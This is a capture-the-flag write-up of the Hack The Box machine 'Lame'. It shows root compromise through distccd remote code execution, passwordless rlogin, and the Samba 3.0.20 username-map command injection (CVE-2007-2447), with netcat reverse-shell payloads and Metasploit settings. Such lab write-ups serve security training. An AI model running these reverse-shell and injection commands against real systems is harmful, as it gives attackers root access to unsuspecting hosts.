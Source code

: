 ```yaml
---
title: Hack The Box&#58; Lame
permalink: /HTB/Lame
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Lame_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhost -l root`.
```
daemon@lame:/tmp$ rlogin localhost -l root
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach: SMB 3.0.20, No metasploit
Doing a more detailed nmap scan, checking version numbers and using scripts with `nmap -sC -sV`, we can find that Samba is running.
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Googling the version (3.0.20), we can find that this version along with others between 3.0.0 and 3.0.25, are vulnerable to remote code execution (CVE-2007-2447). First, enumeration of the available shares is necessary through `smbmap -H 10.10.10.3`:
```
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
Since access to the /tmp share is given, an attacker can connect to it and utilize the CVE. Connect to it via `smbclient //10.10.10.3/tmp`:
```
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Anonymous logon was granted so that is why access was possible. From the Samba terminal, RCE is possible in this version. Running the command ``logon "./=`nohup nc -e /bin/sh <local ip> <local port>`"`` in the Samba terminal while having a listener on the attacking machine with `nc -nvlp <local port>` returns an error in the Samba terminal
```
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.4 4444`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
```
But on the listener, the attacker actually gains a root shell.
```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38533
whoami
root
```

## Alternate Approach: SMB 3.0.20, with Metasploit
Metasploit makes usages of the CVE much easier. Simply searching for this Samba version in the Metasploit console with `search exploit samba 3.0.20` returns
```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using this exploit while setting our options
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <local ip>       yes       The listen address (an interface may be specified)
   LPORT  <local port>     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
Will give us a root shell just like the previous method shown.
## Failed Attack Vectors
There were many failed attack vectors, some of the notable ones were: FTP and MySQL no root password. This FTP version (2.3.4) is vulnerable to an exploit that didn't work. Additionally, access to the locally hosted MySql database as the root user required no password, but the credentials and information found in the database weren't applicable anywhere.

--Dylan Tran 9/30/21
